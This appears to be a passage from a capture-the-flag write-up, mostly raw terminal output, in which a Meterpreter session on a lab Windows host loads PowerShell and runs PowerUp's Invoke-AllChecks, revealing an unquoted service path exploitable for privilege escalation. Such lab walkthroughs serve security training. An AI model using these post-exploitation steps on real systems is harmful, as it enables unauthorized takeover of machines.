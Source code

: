 #next is to enter powershell so the scrpit can be executed:
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS >

PS > ls


    Directory: C:\Users\bill\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          2/1/2022  11:14 AM     600580 PowerUp.ps1
-a---         9/27/2019   5:42 AM         70 user.txt

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
